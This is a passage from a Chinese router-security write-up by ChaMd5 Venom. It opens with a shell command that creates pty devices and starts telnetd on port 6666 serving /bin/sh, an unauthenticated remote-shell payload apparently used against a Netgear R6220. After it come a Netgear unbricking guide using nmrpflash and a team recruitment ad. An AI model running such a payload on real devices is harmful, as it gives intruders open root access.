 ```
mknod /dev/ptyp0 c 2 0; mknod /dev/ttyp0 c 3 0; mknod /dev/ptyp1 c 2 1; mknod /dev/ttyp1 c 3 1; telnetd -p6666 -l/bin/sh
```

完整流程图如下：

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBS0Foibj6xYACEiaIiaCvZqAiaJuY3SibZQz6OJ94NPCEFqPX2WiaaNe8iaemKib4eh9bYdfnwS9Ou6B0dLZg/640?wx_fmt=png)

netgear 救砖教程
============

*   下载 nmrpflash.exe 工具
    

链接：https://pan.baidu.com/s/140aE74ZUsRMcW1sbdLYqYQ，  
提取码：opw4

*   配置静态 IP
    

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBS0Foibj6xYACEiaIiaCvZqAiaJsiaicw3C1ibdxo6QEzXt0g171iab3D6sh3qxTC3kmMVsh2j9YCDwpFiaL1A/640?wx_fmt=png)

*   用管理员权限打开 cmd
    

使用网线插上 netgear lan 口，在命令行中进入刚下载工具的目录

输入命令 nmrpflash.exe -L 查询网卡编号

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBS0Foibj6xYACEiaIiaCvZqAiaJLKkN3APDsP89Yz5vegFaZxQOa7l29tW2eGv9V9S1Q8sZjC9ucQ4icXw/640?wx_fmt=png)

这里可以看到对应的编号是 net1

*   上传固件  
    查询好编号后，执行命令
    

```
nmrpflash.exe -i net1 -f R6220-V1.1.0.86.img
```

开启救砖之路，值得注意的是，此命令执行的时机为：在命令提示符中输入好指令后，此时路由在处于关机状态，开启路由器电源，等待 5 秒，执行命令，大概等待 1-5 分钟左右的时间，即可恢复成功。命令执行时机决定救砖是否成功，可以不断尝试，直到成功。

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBS0Foibj6xYACEiaIiaCvZqAiaJ8ic5goOxAa1HDjMPUUWqtonLtJaiatWmSAmialVRbuiawSxhpbHVqm6pRQ/640?wx_fmt=png)

**end**

  

招新小广告

ChaMd5 Venom 招收大佬入圈

新成立组 IOT + 工控 + 样本分析 + AI 长期招新  

欢迎联系 admin@chamd5.org

  
  

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBR8nk7RR7HefBINILy4PClwoEMzGCJovye9KIsEjCKwxlqcSFsGJSv3OtYIjmKpXzVyfzlqSicWwxQ/640?wx_fmt=jpeg)